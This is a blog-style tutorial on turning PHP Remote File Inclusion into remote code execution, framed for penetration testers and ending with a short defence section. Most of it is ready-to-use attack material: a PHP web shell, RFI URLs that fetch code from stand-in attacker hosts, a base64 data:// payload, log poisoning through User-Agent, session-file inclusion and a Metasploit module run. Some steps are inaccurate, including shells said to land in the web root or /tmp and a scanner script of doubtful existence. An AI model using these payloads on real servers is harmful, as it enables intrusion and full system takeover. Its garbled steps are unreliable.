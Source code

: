 ```yaml
---
title: "Exploiting RFI to RCE: All Possible Attack Vectors"
date: "2025-02-03"
author: "Sumon Nath"
tags: [RFI, RCE, cybersecurity, web exploitation, penetration testing, security]
---
```


# Exploiting RFI to RCE: All Possible Attack Vectors

Remote File Inclusion (RFI) is a serious web vulnerability that allows an attacker to include remote files hosted on an external server. When exploited, RFI can escalate into Remote Code Execution (RCE), enabling attackers to take full control of a system. This guide explores all possible ways to escalate RFI to RCE.

---

## **1. Understanding Remote File Inclusion (RFI)**

### **What is RFI?**
RFI occurs when an application dynamically loads a file from user input without proper validation. Attackers can use this to:
- Execute arbitrary scripts hosted externally.
- Gain shell access to the target server.
- Pivot further into the network.

### **Common RFI Vulnerable Endpoints**
- `?page=http://attacker.com/shell.txt`
- `?file=https://malicious.com/exploit.php`
- `?include=http://evil.com/backdoor.txt`

---

## **2. Exploiting RFI for Remote Code Execution**

### **1. Hosting a Malicious Payload**
Create a PHP backdoor and host it on an external server:
```php
<?php system($_GET['cmd']); ?>
```
Host the file:
```bash
python3 -m http.server 8080
```
Trigger RFI:
```bash
http://target.com/?page=http://attacker.com:8080/shell.php&cmd=id
```

### **2. Using PHP Wrappers for Payload Execution**
If PHP wrappers are enabled, execute code remotely:
```bash
http://target.com/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```
Decode:
```bash
echo "PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+" | base64 -d
```

### **3. Using Web Shells for Persistent Access**
Upload a web shell via RFI:
```php
http://target.com/?page=http://attacker.com/shell.php
```
Access it:
```bash
http://target.com/shell.php?cmd=whoami
```

---

## **3. Advanced Techniques for RFI to RCE**

### **1. Exploiting Temporary File Storage**
If the target caches remote files, inject a shell:
```bash
http://target.com/?page=http://attacker.com/shell.php
```
Access the cached file:
```bash
http://target.com/tmp/shell.php?cmd=id
```

### **2. Poisoning Log Files for Execution**
Inject a payload into logs via User-Agent:
```bash
curl -A "<?php system($_GET['cmd']); ?>" http://target.com
```
Access logs:
```bash
http://target.com/?page=/var/log/nginx/access.log&cmd=id
```

### **3. Exploiting PHP Sessions for Code Execution**
If PHP sessions are stored in `/tmp/sess_<session_id>`:
```php
<?php system($_GET['cmd']); ?>
```
Include the session:
```bash
?page=/tmp/sess_abc123&cmd=id
```

### **4. Abusing Include Functions with Remote Payloads**
If a target loads files dynamically:
```php
include($_GET['file']);
```
Trigger execution:
```bash
http://target.com/?file=http://attacker.com/shell.txt
```

---

## **4. Automating RFI Exploitation**

### **Using RFIScan**
```bash
git clone https://github.com/swisskyrepo/PayloadsAllTheThings.git
cd PayloadsAllTheThings/RFI
python3 scan_rfi.py -u "http://target.com/?page=FUZZ"
```

### **Using Metasploit for RFI Exploitation**
```bash
msfconsole
use exploit/unix/webapp/php_include
set RHOSTS target.com
set TARGETURI /vulnerable.php?page=
exploit
```

---

## **5. Defending Against RFI Attacks**

### **1. Restrict File Inclusion**
- Disable `allow_url_include` in `php.ini`:
```ini
allow_url_include=Off
```

### **2. Implement Input Validation**
- Use a whitelist of allowed files.
- Sanitize user input.

### **3. Use Web Application Firewalls (WAFs)**
Deploy **ModSecurity** to block RFI payloads:
```bash
sudo apt install libapache2-mod-security2
sudo systemctl restart apache2
```

---

## **6. Conclusion: Turning RFI into Full System Compromise**

RFI vulnerabilities can easily escalate to full RCE when combined with improper configurations. Understanding various attack vectors allows penetration testers and security researchers to assess and mitigate risks effectively.

🚀 Stay vigilant, test your web applications, and secure your systems!

---

💡 **Want more security insights?** Stay tuned for advanced web exploitation techniques!

